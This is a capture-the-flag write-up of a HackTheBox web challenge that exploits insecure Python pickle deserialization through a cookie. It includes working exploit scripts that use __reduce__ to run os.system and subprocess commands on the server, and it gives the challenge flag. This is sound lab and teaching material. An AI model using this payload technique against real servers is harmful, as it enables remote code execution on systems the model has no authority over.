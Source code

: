 ```yaml
---
Category: Web
Difficulty: Medium
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - python-coding
  - pickle-deserialization
---
```

>[!quote]
> Look Morty, look! I turned myself into a website Morty, I'm Website Rick babyyy!! But don't play around with some of them anti pickle serum I have stored somewhere safe, if I turn back to a human I'll have to go to family therapy and we don't want that Morty.
> 

![Pasted image 20210908153753.png](../../zzz_res/attachments/Pasted_image_20210908153753.png)

# Set up

-

# Information Gathering

Running the instance of the challenge it is possible to browse to the Website Rick home page, where it is possible to read:

![baby website rick 1.png](../../zzz_res/attachments/baby_website_rick_1.png)

Don't play around with this serum morty!! and then the info `<__main__.anti_pickle_serum object at 0x7f88f526cf90>`

As also suggested by the title of the page, this challenge focuses on an insecure deserialization vulnerability.

Intercepting with Burpsuite the request sent to the server, it is possible to notice that the client sends a strange cookie, called plan_b. Decoding the cookie I can read some weird instruction like **main** or **builtin** object that suggest me something related to python, as also confirmed by the Server fingerprint.

![baby website rick 2.png](../../zzz_res/attachments/baby_website_rick_2.png)

At the moment I can already assume that playing around with the cookie probably will lead to some kind of code execution or file inclusion, however I don't know yet in what way.

Because the word "pickle" appears multiple times, I started documenting about what it is, discovering that pickle is a Python module used to serialize and deserialize objects. As also said within the official documentation, pickle is not secure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Ok, so plan_b is a cookie used to pass pickled serialized data to the server.

![baby website rick 3.png](../../zzz_res/attachments/baby_website_rick_3.png)

From what I just read from the documentation it is possible to send a malicious cookie in order to force the server to deserialize it and execute arbitrary code. But in which way?

The documentation shows different methods that can be used to manage pickle data, as well as another module, called pickletools, that can be used to disassemble pickled object. In order to better understand what is passed to the server, I wrote a small python script that decompile and optimize the plan_b cookie. The decompiled pickle is not very helpful, however it allows to understand that the server is expecting an anti_pickle_serum class object (as also suggested by the home page).

![baby website rick 4.png](../../zzz_res/attachments/baby_website_rick_4.png)

Ok, I've no idea on what to do next, so let's search online for any good article explaining this pickle vulnerability. One of the first results is this blog post from David's personal site [1] where it explains how to exploit a pickle deserialization vulnerability using the `reduce()` function.

The **reduce**() method takes no argument and shall return either a string or a tuple. The semantics of each item are in order:

A callable object that will be called to create the initial version of the object.

A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument.

So by implementing **reduce**() in a class, I can give the pickling process a callable and some other arguments to run. Potentially I can execute `os.system()` and some commands, as also shown by the David's PoC.

Based on its code I wrote a test exploit which implement the **reduce**() method and execute 'ls'. I gave to the class the same name used by the original pickle and I generated the serialized string. Mmm... Looking at the decompiled code it seems too different from the previous one, however let's see if the exploit work. Let me copy the string and paste it within the plan_b cookie. Crap, Internal Server Error. Probably the two objects differs too much.

After some trial and error I figured out how to generate almost the same serialized object. The script simply defines a void constructor and then generates the corresponding pickle. The two however are still different.

![baby website rick 5.png](../../zzz_res/attachments/baby_website_rick_5.png)

# Exploitation

Looking at the meaning of the decompiled SETITEM opcode I found out that it add a pair of Key-Value to an existing dictionary, meaning that my custom object must be pickled inside a dictionary in order to be equal the original one. Good! The two object are now the same, I have successfully reversed the original pickle and I'm able to generate valid serialized objects. Let's try to implement the **reduce**() method within this class and see if it works now that the result is the same of the original.

It works! Although it didn't show the result of the executed command, the server did not throw an Internal Server Error, instead it printed a "0" which is the value returned by the command - exit code -.

![baby website rick 6.png](../../zzz_res/attachments/baby_website_rick_6.png)

As said by this user on StackExchange "os.system() just run the process, it doesn't capture the output". In order to obtain the output of the command it is necessary to use a different function, like subprocess.check_output()

Ok, let's implement the new function.

Damn, it is better if I re-read the documentation... Right, I must return a tuple containing the function to call and a tuple of arguments. Maybe we are done. <500 Server Error> Oh my gosh!

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os

class anti_pickle_serum:
	def __init__(self):
		pass

	def __reduce__(self):
		return os.system, ("ls",)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
print(f'\n\nPayload: {payload}\n')
```

![Pasted image 20210826175353.png](../../zzz_res/attachments/Pasted_image_20210826175353.png)

Wait, this should be correct! Maybe python3 and python2 behave differently when generating the serialized object? The server uses python2 so let's try with that version. Here we go! I have successfully executed the ls command. Now let's update the script and obtain the flag!

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['cat', 'flag_wIp1b']
		#return os.system, (cmd,)
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
#print "Payload: "+payload
print(payload)
```

Good job Morty, now I have to go to family therapy

# Flag

>[!success]
>`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`

# Video Writeup

<iframe width="660" height="415" src="https://www.youtube.com/embed/TPAhM6W2Zaw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

